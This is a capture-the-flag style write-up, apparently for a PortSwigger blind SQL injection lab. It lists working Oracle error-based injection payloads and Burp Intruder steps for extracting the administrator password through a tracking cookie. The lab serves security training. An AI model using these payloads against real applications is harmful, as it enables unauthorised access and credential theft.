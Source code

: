 # Lab #12 - Blind SQL injection with conditional errors
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

Vulnerable parameter - tracking cookie


**End Goals:**
- Output the administrator password
- Login as the administrator user


**Analysis:**

1) Prove that parameter is vulnerable 

*Note for Burp: **ctrl + u** to convert code*

```SQL
''
```
```SQL
' || (select '') || '
```
-> error 500 that means is not a MySQL Database
```SQL
' || (select '' from dual) || ' 
``` 
-> Oracle Database

```SQL
' || (select '' from sametablename) || ' 
```
-> error sametablename don't exist

2) Confirm that the users table exists in the database
```SQL
' || (select '' from users) || ' 
```
-> error 
```SQL
' || (select '' from users where rownum =1) || ' 
```
-> users table exists

3) Confirm that the administrator user exists in the users table
```SQL
' || (select '' from users where username='administrator') || ' 
```
```SQL
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
```
-> Internal server error -> administrator user exists
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='sameuser') || ' 
```
-> 200 response -> user does not exist in database

4) Determine length of password
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>1) || ' 
```
-> 500 Internal Server error response at 1 -> length of password is greater than 1
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>50) || ' 
```
-> 200 response at 50 -> length of password is less than 50

send request to the BurpSuite Intruder --> Attak type "Sniper" Payload type "Numbers"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
```
-> 20 characters

5) Output the administrator password

```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || ' 
```
-> If 200 response at a --> a is not the first character of the password

send request to the BurpSuite Intruder -->  Attak type "Sniper" Payload type Brute forcer
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='§a§') || ' 
```
->  ***X*** is the first character of the password

Modify the request on BurpSuite Intruder -->  Attak type "Cluster bomb" first Payload type "Numbers" from 1 to 20 and the second Payload type "Brute forcer"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,§1§,1)='§a§') || ' 
```

->  You can also use the ***script.py*** to get the Password 
